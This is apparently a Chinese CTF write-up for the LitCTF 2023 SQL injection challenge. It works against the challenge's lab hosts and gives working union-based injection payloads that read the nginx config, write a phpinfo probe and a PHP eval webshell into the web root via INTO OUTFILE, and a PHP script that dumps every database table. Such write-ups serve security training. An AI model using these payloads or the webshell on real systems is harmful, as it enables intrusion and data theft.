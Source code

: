 ---
# 怎么get shell
以***1[LitCTF 2023]这是什么？SQL ！注一下 ！*** 为例
sql注入一句话木马，远程控制os
具体一点的过程在***Sql注入os远程控制.md***
## 收集信息
#### 寻找网站根目录
接下来读取nginx配置文件
```sql
# payload:
?id=-1)))))) union select load_file('/etc/nginx/nginx.conf'),2%23

回显：
daemon off; worker_processes auto; error_log /var/log/nginx/error.log warn; events { worker_connections 1024; } http { include /etc/nginx/mime.types; default_type application/octet-stream; sendfile on; keepalive_timeout 65; server { listen 80; server_name localhost; root /var/www/html; index index.php; proxy_set_header Host $host; proxy_set_header X-Real-IP $remote_addr; proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for; location / { try_files $uri $uri/ /index.php?$args; } location ~ \.php$ { try_files $uri =404; fastcgi_pass 127.0.0.1:9000; fastcgi_index index.php; include fastcgi_params; fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name; } } }
```
```nginx
整理一下
# 运行 Nginx 为前台进程
daemon off;

# 根据可用 CPU 核心数自动设置工作进程数量
worker_processes auto;

# 设置错误日志文件的路径和日志级别
error_log /var/log/nginx/error.log warn;

# 事件处理模块配置
events {
    # 每个工作进程可以同时打开的最大连接数
    worker_connections 1024;
}

# HTTP 服务器配置
http {
    # 包含 MIME 类型定义文件
    include /etc/nginx/mime.types;
    
    # 默认的 MIME 类型
    default_type application/octet-stream;
    
    # 启用 sendfile，提高文件传输性能
    sendfile on;
    
    # 设置保持连接的超时时间
    keepalive_timeout 65;
    
    # 虚拟主机配置
    server {
        # 监听端口 80
        listen 80;
        
        # 服务器名称
        server_name localhost;
        
        # 网站文件的根目录
        root /var/www/html;
        
        # 默认的索引文件
        index index.php;
        
        # 设置代理头信息
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        
        # 根目录的处理规则
        location / {
            try_files $uri$uri/ /index.php?$args;
        }
        
        # PHP 文件的处理规则
        location ~ \.php$ {
            try_files $uri =404;
            fastcgi_pass 127.0.0.1:9000;
            fastcgi_index index.php;
            include fastcgi_params;
            fastcgi_param SCRIPT_FILENAME $document_root$fastcgi_script_name;
        }
    }
}

```
找到网站根目录：`/var/www/html`
#### 写入php探针
```sql
# payload:
?id=-1)))))) union select '<?php phpinfo();?>',2 into outfile '/var/www/html/info.php'%23
```
然后访问http://node5.anna.nssctf.cn:24209/info.php      
可以看到`phpinfo`页面，有很多有用的信息，如果出题人不仔细可能flag就在这里
#### 写入webshell
```sql
# payload:
?id=-1)))))) union select '<?php eval($_POST["attack"]);?>',2 into outfile '/var/www/html/attack.php'%23
```
我们在`/var/www/html/`创建了`attack.php`        
蚁剑连接：http://node6.anna.nssctf.cn:28413/attack.php      
密码`attack`      
然后就可以为所欲为了

# 怎么获取数据库
蚁剑连接后可以看到`connect.php`,内容如下：
```php
<?php
  $servername = "localhost";
  $username = "root";
  $password = "123456";
  $dbname = "ctf";

  $conn = new mysqli($servername, $username, $password, $dbname);

  if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
  }
?>
```
可以看到数据库的连接信息
    **1. servername = "localhost";**
    **2. username = "root";**
    **3. password = "123456";**
    **4. dbname = "ctf";**
修改`connect.php`中的数据库连接信息，即可获取数据库     
修改后的代码如下：
```php
<?php
  $servername = "localhost";
  $username = "root";
  $password = "123456";
  $dbname = "ctf";

  $conn = new mysqli($servername, $username, $password, $dbname);

  if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
  }
  // 执行查询
  $sql = "SHOW DATABASES";
  $result =$conn->query($sql);

// 获取所有数据库的列表
$sql = "SHOW DATABASES";$result = $conn->query($sql);

// 遍历所有数据库
while($database =$result->fetch_assoc()) {
    $dbName = array_values($database)[0];
    
    // 选择数据库
    if ($conn->select_db($dbName)) {
        echo "Contents of database: " . $dbName . "<br>";

        // 获取数据库中所有表的列表
        $tablesSql = "SHOW TABLES FROM " .$dbName;
        $tablesResult =$conn->query($tablesSql);

        // 遍历所有表
        while($table =$tablesResult->fetch_assoc()) {
            $tableName = array_values($table)[0];

            // 输出表名
            echo "Contents of table: " . $tableName . "<br>";

            // 获取并输出表中的所有数据
            $tableSql = "SELECT * FROM " .$tableName;
            $tableResult =$conn->query($tableSql);

            if ($tableResult) {
                // 输出列名
                echo "<table border='1'><tr>";
                while ($fieldinfo =$tableResult->fetch_field()) {
                    echo "<td>" . $fieldinfo->name . "</td>";
                }
                echo "</tr>";

                // 输出数据
                while($row =$tableResult->fetch_assoc()) {
                    echo "<tr>";
                    foreach ($row as$value) {
                        echo "<td>" . htmlspecialchars($value) . "</td>";
                    }
                    echo "</tr>";
                }
                echo "</table><br>";
            } else {
                echo "Error: " . $tableSql . "<br>" .$conn->error;
            }
        }
    } else {
        echo "Cannot select database: " . $dbName . "<br>";
    }
}

// 关闭连接
$conn->close();
?>
```
然后访问connect.php，就可以获取数据库中的所有表和数据，包括列名和数据。        
用`Ctrl+F`搜索`ctf`关键字，即可获得答案。